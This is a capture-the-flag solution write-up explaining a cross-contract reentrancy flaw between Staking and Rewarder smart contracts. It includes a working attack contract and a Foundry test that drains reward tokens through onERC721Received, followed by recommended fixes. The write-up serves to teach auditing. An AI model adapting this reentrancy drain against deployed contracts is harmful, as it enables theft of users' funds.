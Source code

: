 # NotForTrusting Solution

If your solution has to do with `Rewarder::setStaker()`'s access control:
```
require(tx.origin == admin, "you are not the admin");
```
Your answer is wrong. It was a red herring. Although that is a potential vulnerability, we can assume the admin of the protocol is responsible. Congrats on finding this bug, but there is a different solution to this challenge.


### The real solution
The actual vulnerability is a cross contract reentrancy attack. Nowadays, most developers are aware of simple reentrancy attacks. In this case, both smart even contracts have a reentrancy guard modifier on every state changing function.

Since the two smart contracts do not share the same state for the reentrancy guard modifier, they are not aware when the other contract is locked. To fix this issue, I recommend that protocols with multiple smart contracts should share the state of the reentrancy guard modifier by creating a separate smart contract that they both read and write to the state of the contract.

The basics of the rentrancey revolves around claiming twice, and taking advantage of an NFT's `safeTransforFrom()` function call to `onERC721Received()` in the receiving smart contract. We will go over the affected code in more depth later, but for now let's look into how we perform the exploit.

To exploit the vulnerability, we need a separate smart contract to perform the rentrancey. Let's take a look at my implementations of it:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.22;

import "../mocks/NFT.sol";
import "../mocks/marqToken.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import { Staking, Rewarder } from "../src/6_NotForTrusting.sol";


contract Attack6 is IERC721Receiver {

    Staking staking;
    Rewarder rewarder;
    NFT nft;
    MarqToken token;
    bool attackMode;


    constructor(address _staking, address _rewarder, address _nft, address _token) {
        staking = Staking(_staking);
        rewarder = Rewarder(_rewarder);
        nft = NFT(_nft);
        token = MarqToken(_token);
    }

    function stake(uint256 _tokenId) external {
        nft.approve(address(staking), _tokenId);
        staking.stake(_tokenId, 100);
    }

    function unstake(uint256 _tokenId) external {
        staking.unstake(_tokenId, true);
    }

    function setAttackMode(bool _mode) external {
        attackMode = _mode;
    }

    function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
        if(attackMode) {
            rewarder.claim();
        }
        return IERC721Receiver.onERC721Received.selector;
    }

    function pullOutWinnings(uint256 _tokenId) external {
        nft.transferFrom(address(this), msg.sender, _tokenId);
        token.transfer(msg.sender, token.balanceOf(address(this)));
    }

}
```
It's not too complex but here is a breakdown of what each function does.
- `stake`: Call `Staking` to stake the user's NFT.
- `unstake`: Call `Staking` to unstake the user's NFT
- `onERC721Received`: Necessary function to receive a NFT for a smart contract. If attack mode is set to true, it calls the claim function again.
- `setAttackMode`: Toggle's attack mode.
- `pullOutWinnings`: Sends the stolen funds to the hacker's address.

Now let's look at what I wrote in the test file:
```
function test_GetThisPassing_6() public {
    address hacker = address(0xBAD);
    
    Attack6 attack = new Attack6(address(staking), address(rewarder), address(nft), address(token));

    vm.startPrank(hacker);
    nft.transferFrom(address(hacker), address(attack), tokenId);
    attack.stake(tokenId);
    attack.setAttackMode(true);
    vm.roll(block.number + 100);
    attack.unstake(tokenId);
    attack.pullOutWinnings(tokenId);
    vm.stopPrank();

    assertGt(token.balanceOf(hacker), 1000 ether);
    assertEq(nft.ownerOf(tokenId), hacker);
}
```
Here are the steps to execute the attack:
1. Send the NFT to the attack contract.
2. Stake the NFT.
3. Set the attack contract in attack mode. Now when it receives the NFT it knows to claim again.
4. Move the block number.
5. Call unstake. This is when the reentrancy occurs 
6. Pull out the winnings.

Now let's go over why we were able to exploit a reentrancy attack. Although the `lock` modifier does not protect both smart contracts, this attack could have been avoided if the code handled state changes better.

Checks Effects Interactions (CEI) refers to a best practice programming pattern for smart contract development. In short, it refers to updating state variables before handing off the transaction flow to another smart contract. To read more on CEI [check this article out](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html).

Here is an example of the `Staking` contract's unstake function if it was written in best practice:
```
function unstake(uint256 _tokenId, bool claim) external guard {
    require(isStaking[msg.sender], "Stake first");
    StakeData memory userStake = stakeData[msg.sender];
    require(block.number >= userStake.stakeStart + userStake.stakeDuration, "patience is my least favorite virtue too");

    if(claim) {
        rewarder.claim(msg.sender);
    }

    // we update the state before transfering the NFT out of the protocol
    isStaking[msg.sender] = false;
    userStake = StakeData(0, 0, 0);

    nft.safeTransferFrom(address(this), msg.sender, _tokenId);
}
```

However, that was not the only issue with this code. `Rewarder`'s `function claim(address _for) external` has an error in it's require statements:
```
function claim(address _for) external guard {
    bool isStaking = staking.isStaking(_for);
    StakeData memory userStake = staking.getStakerData(msg.sender);
    require(msg.sender == address(staking), "not your rewards");
    require(block.number >= userStake.stakeStart + userStake.stakeDuration, "you know about vm.roll(), right?");
    // changed msg.sender to _for
    require(!hasClaimed[_for], "no double dipping");

    // changed msg.sender to _for
    hasClaimed[_for] = true;
    token.mint(1000 ether);
    token.transfer(_for, 1000 ether);
    
}
```

Because the original code is updating and checking `msg.sender` instead of `_for`, this actually blocks `Staking` from claiming again, regardless of the user.

Whenever you see a smart contract hand over flow to an external contract, you meticulously check all possible interactions and possibilities of a reentrancy attack.

Bonus Points if you noticed that a user who has not manually claimed and does not set `claim` to true while unstaking will lose out on their rewards.
